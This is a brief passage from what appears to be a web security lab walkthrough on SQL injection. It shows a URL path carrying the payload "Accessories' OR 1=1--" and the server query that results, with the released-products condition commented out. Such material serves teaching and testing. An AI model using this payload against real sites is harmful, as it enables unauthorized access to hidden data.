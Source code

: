 - Submit the request with the path 
```
/filter?category=Accessories' OR 1=1--
```
- The SQL query in the server now becomes:
```
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```
